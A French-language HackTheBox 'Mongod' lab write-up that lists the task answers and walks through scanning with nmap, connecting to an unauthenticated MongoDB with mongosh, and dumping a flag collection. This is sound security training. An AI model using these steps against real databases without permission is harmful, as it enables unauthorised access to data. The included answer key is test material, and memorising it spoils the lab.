

# 🔥 HackTheBox - Mongod

```text
      /\_____/\
    (  ^   ^  )   ██╗  ██╗ █████╗  ██████╗██╗  ██╗████████╗██╗  ██╗███████╗██████╗  ██████╗ ██╗  ██╗
    ( (  ω  ) )   ██║  ██║██╔══██╗██╔════╝██║ ██╔╝╚══██╔══╝██║  ██║██╔════╝██╔══██╗██╔═══██╗╚██╗██╔╝
     \ ~~~~~ /    ███████║███████║██║     █████╔╝    ██║   ███████║█████╗  ██████╔╝██║   ██║ ╚███╔╝
      )     (     ██╔══██║██╔══██║██║     ██╔═██╗    ██║   ██╔══██║██╔══╝  ██╔══██╗██║   ██║ ██╔██╗
     (  ~~~  )    ██║  ██║██║  ██║╚██████╗██║  ██╗   ██║   ██║  ██║███████╗██████╔╝╚██████╔╝██╔╝ ██╗
      `~~~~~´     ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═╝╚══════╝╚═════╝  ╚═════╝ ╚═╝  ╚═╝

╔══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                ║
║ ███╗   ███╗ ██████╗ ███╗   ██╗ ██████╗  ██████╗ ██████╗                         ║
║ ████╗ ████║██╔═══██╗████╗  ██║██╔════╝ ██╔═══██╗██╔══██╗                        ║
║ ██╔████╔██║██║   ██║██╔██╗ ██║██║  ███╗██║   ██║██║  ██║                        ║
║ ██║╚██╔╝██║██║   ██║██║╚██╗██║██║   ██║██║   ██║██║  ██║                        ║
║ ██║ ╚═╝ ██║╚██████╔╝██║ ╚████║╚██████╔╝╚██████╔╝██████╔╝                        ║
║ ╚═╝     ╚═╝ ╚═════╝ ╚═╝  ╚═══╝ ╚═════╝  ╚═════╝ ╚═════╝                        ║
║                                                                                ║
║                  [ HackTheBox — Starting Point ]                               ║
║                                                                                ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

## 🔑 Machine Info

```text
┌──────────────────────────────────────────────────┐
│  Name       : Mongod                             │
│  OS         : Linux                              │
│  Difficulty : Very Easy                          │
│  Rating     : ⭐ 3.6/5 (183)                     │
│  XP Reward  : 150 XP                             │
│  Theme      : Database / MongoDB Enumeration     │
│  Player #   : 58084                              │
└──────────────────────────────────────────────────┘
```

---

## 🎯 Objective

Le but de ce laboratoire est de démontrer comment une instance **MongoDB** exposée sans authentification peut être compromise. L'objectif consiste à scanner les ports ouverts, identifier le service MongoDB, s'y connecter via le shell interactif `mongosh`, énumérer les bases de données et collections, puis extraire le flag directement depuis la base de données.

---

## 📝 Tasks & Answers

```text
┌────┬──────────────────────────────────────────────────────────────────────────────────┬──────────────────────┐
│ #  │ Question                                                                         │ Answer               │
├────┼──────────────────────────────────────────────────────────────────────────────────┼──────────────────────┤
│ 01 │ How many TCP ports are open on the machine?                                      │ 2                    │
│ 02 │ Which service is running on port 27017 of the remote host?                       │ MongoDB 3.6.8        │
│ 03 │ What type of database is MongoDB? (Choose: SQL or NoSQL)                         │ NoSQL                │
│ 04 │ What command is used to launch the interactive MongoDB shell from the terminal?  │ mongosh              │
│ 05 │ What is the command used for listing all the databases present on the server?    │ show dbs             │
│ 06 │ What is the command used for listing out the collections in a database?          │ show collections     │
│ 07 │ What command is used to dump the content of all the documents in flag?           │ db.flag.find()       │
└────┴──────────────────────────────────────────────────────────────────────────────────┴──────────────────────┘
```

---

## 🔍 Walkthrough

### Step 1 — Reconnaissance & Connectivity Check

> Dans un premier temps, nous vérifions la connectivité réseau avec la cible via une requête ICMP (`ping`) afin de confirmer que l'hôte est actif et accessible. Ensuite, un scan `nmap` avec détection de version (`-sV`) révèle **2 ports TCP ouverts**, dont le port `27017` qui héberge **MongoDB 3.6.8** — sans authentification.

```bash
ping 10.129.X.X
nmap -sV 10.129.X.X
```


---

### Step 2 — Installation de mongosh

> Afin d'interagir avec l'instance MongoDB distante, nous installons le client officiel **mongosh** (MongoDB Shell). Cet outil permet de lancer des commandes directement contre la base de données cible depuis le terminal.

```bash
# Installation via apt ou npm
apt-get install -y mongodb-mongosh
# ou
npm install -g mongosh
```


---

### Step 3 — Connexion au serveur MongoDB

> Une fois `mongosh` installé, nous nous connectons directement à l'instance MongoDB exposée sur le port `27017` de la machine cible. Aucune authentification n'est requise, ce qui constitue une vulnérabilité critique de configuration.

```bash
./mongosh mongodb://10.129.X.X:27017
# ou simplement
mongosh 10.129.X.X
```


---

### Step 4 — Énumération des Bases de Données

> Une fois connectés au shell interactif, nous listons toutes les bases de données présentes sur le serveur avec la commande `show dbs`. Parmi celles-ci, une base suspecte nommée **`sensitive_information`** (ou similaire) attire notre attention.

```javascript
show dbs
```


---

### Step 5 — Flag Exfiltration 🚩

> Après avoir sélectionné la base de données cible et listé ses collections avec `show collections`, nous dumpons le contenu de la collection **`flag`** via `db.flag.find()`. Le **Root Flag** est directement retourné dans la réponse, validant la compromission totale de la machine.

```javascript
use sensitive_information
show collections
db.flag.find()
```



---

## 🏁 Result

```text
╔═══════════════════════════════════════════╗
║                                           ║
║   🚩  ROOT FLAG OWNED  🚩                 ║
║                                           ║
║   Congratulations H4concef!               ║
║   You are player #58084                   ║
║   to have solved Mongod.                  ║
║                                           ║
╚═══════════════════════════════════════════╝
```

---

## 📚 Concepts Learned

```text
┌──────────────────────────┬──────────────────────────────────────────────────────┐
│ Concept                  │ Description                                          │
├──────────────────────────┼──────────────────────────────────────────────────────┤
│ MongoDB                  │ Base de données NoSQL orientée documents (BSON).     │
│ Port 27017               │ Port par défaut de MongoDB, souvent exposé sans      │
│                          │ authentification dans des configs mal sécurisées.    │
│ mongosh                  │ Shell interactif officiel pour MongoDB.              │
│ show dbs                 │ Commande pour lister toutes les bases de données.    │
│ show collections         │ Commande pour lister les collections d'une DB.       │
│ db.flag.find()           │ Commande pour afficher tous les documents d'une      │
│                          │ collection (ici : la collection "flag").             │
│ NoSQL Enumeration        │ Technique d'exploration des bases NoSQL via shell    │
│                          │ sans nécessiter de mot de passe.                    │
│ Nmap -sV                 │ Détection de version des services sur les ports.     │
└──────────────────────────┴──────────────────────────────────────────────────────┘
```

---

## 🛠️ Tools Used

```text
• ping       — Test de connectivité réseau (ICMP)
• nmap       — Scanner de ports et services (-sV)
• mongosh    — Shell interactif MongoDB (connexion et énumération)
```

---

## 📂 Repository Structure

```text
MONGOD/
├── README.md
└── IMG/
    ├── ping_nmap.png
    ├── install_mongosh.png
    ├── mongosh_connect.png
    ├── show_dbs.png
    └── flag.png
```

---

## 👤 Author

```text
   ╔═══════════════════════════════╗
   ║  H4concef — Player #58084     ║
   ║  HackTheBox Starting Point    ║
   ╚═══════════════════════════════╝
```

> Writeup réalisé dans le cadre du parcours **Starting Point** de HackTheBox.

